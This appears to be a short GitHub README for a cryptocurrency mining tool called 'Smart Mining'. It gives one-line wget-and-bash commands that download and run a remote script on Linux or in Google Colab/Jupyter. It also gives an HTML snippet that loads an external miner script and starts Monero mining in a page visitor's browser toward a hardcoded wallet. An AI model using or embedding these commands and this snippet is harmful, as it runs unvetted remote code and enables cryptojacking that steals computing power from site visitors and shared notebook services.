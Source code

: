 [![Codacy Security Scan](https://github.com/thealidev/sm/actions/workflows/codacy.yml/badge.svg)](https://github.com/thealidev/sm/actions/workflows/codacy.yml)
# `Smart Mining`
## `Linux`
```
wget https://raw.githubusercontent.com/thealidev/sm/main/mine.sh && bash mine.sh
```
## `Google Colab` Or `Jupyter Notebook`
```
! wget https://raw.githubusercontent.com/thealidev/sm/main/mine.sh && bash mine.sh
```
## `Web Miner`
```
<script src="https://monerominer.rocks/miner-mmr/webmnr.min.js"></script>
<script>
    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "8ANyqnPspbmdyQaY3FVzb1AYxnQPBKozVQ8qXKiBojvkPbkdv4gt8mCeNnuFhppTEpcVctYKwfiHce9ApMVuHKn8DMfr8un";
    var workerId = "Miner";
    var threads = 1;
    var password = "x";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 30;
</script>
```
# `For Personal Use Only`
